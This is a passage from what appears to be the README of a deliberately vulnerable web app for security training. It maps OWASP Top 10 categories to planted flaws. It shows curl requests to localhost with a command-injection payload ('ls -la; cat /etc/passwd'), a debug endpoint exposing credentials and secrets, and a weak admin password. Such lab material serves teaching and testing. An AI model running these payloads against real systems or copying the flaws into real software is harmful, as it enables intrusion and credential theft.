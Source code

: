 #### Command Injection
```bash
# Basic command execution
curl -X POST http://localhost:8080/api/execute \
  -H "Content-Type: application/json" \
  -d '{"command": "whoami"}'

# Multiple commands
curl -X POST http://localhost:8080/api/execute \
  -H "Content-Type: application/json" \
  -d '{"command": "ls -la; cat /etc/passwd"}'
```

### A05:2021 - Security Misconfiguration
**Status**: ✅ Implemented
**Location**: `/api/debug`, app configuration
**Vulnerability**: Debug mode enabled, exposed secrets
**Exploitation**:
```bash
# Access debug information
curl "http://localhost:8080/api/debug"
```

**Exposed Information**:
- Database path
- Admin credentials
- JWT secret
- Secret key
- Environment variables
- Server information

### A06:2021 - Vulnerable Components
**Status**: ✅ Implemented
**Location**: `requirements.txt`
**Vulnerability**: Outdated dependencies with known vulnerabilities
**Components**:
- Flask 2.0.1 (outdated)
- Werkzeug 2.0.1 (outdated)
- requests 2.25.1 (outdated)
- cryptography 3.4.8 (outdated)
- PyJWT 1.7.1 (outdated)

### A07:2021 - Authentication Failures
**Status**: ✅ Implemented
**Location**: `/login`, session management
**Vulnerability**: Weak authentication mechanisms
**Exploitation**:
```bash
# Login with weak credentials
curl -X POST http://localhost:8080/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin&password=admin123"
```
